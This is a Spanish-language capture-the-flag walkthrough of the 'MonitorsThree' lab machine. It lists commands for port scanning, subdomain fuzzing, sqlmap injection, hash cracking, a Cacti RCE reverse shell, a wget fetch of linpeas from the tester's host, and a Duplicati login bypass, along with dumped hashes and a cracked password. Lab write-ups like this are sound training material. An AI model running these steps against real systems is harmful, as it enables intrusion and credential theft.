Realizo un escaneo de puertos
nmap -sVC -p- --open -sS --min-rate 5000 -v -n -Pn -oN monitors3_scan 10.10.11.30
Encontramos el servicio SSH abierto y el servicio HTTP en el puerto 80
También nos da una dirección

La añadimos a /etc/hosts
Con Wappalyzer podemos ver las tecnologías usadas

Hago una enumeración de directorios y encuentro esto

Admin esta Forbidden

Con FFUF encuentro un subdominio
ffuf -u http://monitorsthree.htb/ -H "Host: FUZZ.monitorsthree.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 13560

En el subdominio cacti encontramos otro login

Este login nos trae una versión 1.2.26
Accedemos a la página y de primeras encontramos un login.php

Tambíen hay un forgot password que puede servir

Al meter caracteres al azar me dice que no puede procesar la solicitud

Puede que sea vulnerable a SQLI
sqlmap -r request_pass.txt -p username --dbs
Encuentro estas dos dbs

Accedemos a la tabla de users y encontramos hashes
+-----------+----------------------------------+-----------------------------+
| username | password | email |
+-----------+----------------------------------+-----------------------------+
| admin | 31a181c8372e3afc59dab863430610e8 | admin@monitorsthree.htb |
| dthompson | 633b683cc128fe244b00f176c8a950f5 | dthompson@monitorsthree.htb |
| janderson | 1e68b6eb86b45f6d92f8f292428f77ac | janderson@monitorsthree.htb |
| mwatson | c585d01f2eb3e6e1073e92023088a3dd | mwatson@monitorsthree.htb |
+-----------+----------------------------------+-----------------------------+
Crakeamos los hashes y nos da una password

admin:greencacti2001
Con estas creds podemos acceder a http://monitorsthree.htb/admin/dashboard.php y http://cacti.monitorsthree.htb/cacti/index.php


Encotramos 3 usuarios

En http://monitorsthree.htb/admin/dashboard.php no encontramos nada interesante
Para cacti encontramos un RCE https://github.com/Cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88

Lo ejecutamos con el comando php

Subimos el archivo test.xml.gz

Nos devuelve la reverse shell con el usuario wwwdata


Encontramos el archivo db.php


En db.php encotramos la pass de marcus
$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt --user
Accedemos al usuario marcus co su marcus

Con ls -al encotramos la carpeta .ssh

Para tener una conexión más estable entramos a través de ssh

Subo linpeas.sh con
python3 -m http.server 1234
wget http://<YourIP>:1234/linpeas.sh
En puertos activos encuentro algo interensante


Encontramos un login en el puerto 8200

Esto podemos verlo gracias a un portforwarding
ssh -L 8200:127.0.0.1:8200 -i rsa marcus@monitorsthree.htb
Encuentro este exploit
Me descargo el archivo Duplicati-server.sqlite con wget
wget http://monitorsthree.htb:1234/Duplicati-server.sqlite
Lo abro con sqlitebrowser

Encotramos estas credenciales
server-passphrase = Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=
server-passphrase-salt = xTfykWV1dATpFZvPhClEJLJzYA5A4L74hX7FK8XmY0I=
server-passphrase-trayicon = 9664e0c3-82f9-41dc-9c7c-f0299053d1b8
server-passphrase-trayicon-hash = 060ZIdyxlxlS3zF39AeUQzv3XpTdvgrHfv0HdKZYu1I=
Siguiento los pasos de la documentación encuentro lo que pasa con las variables ¡
view-source:http://127.0.0.1:8200/login/login.js?v=2.0.8.1

Server-passphrase from DB > From Base64 > then Convert it to Hex ( Usando CyberChef )
59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a
Para realizar el cambio en la misma request lo hacemos desde intercept

Accedemos al panel de duplicati

Creo una backup de la ruta de root


Lo ejecutamos

Seleccionamos restore files

Selecionamos el archivo root.txt
Y como ruta donde recuperar el archivo selecionamos /home/marcus/
Volvemos al sshd de marcus y ya tenemos root.txt
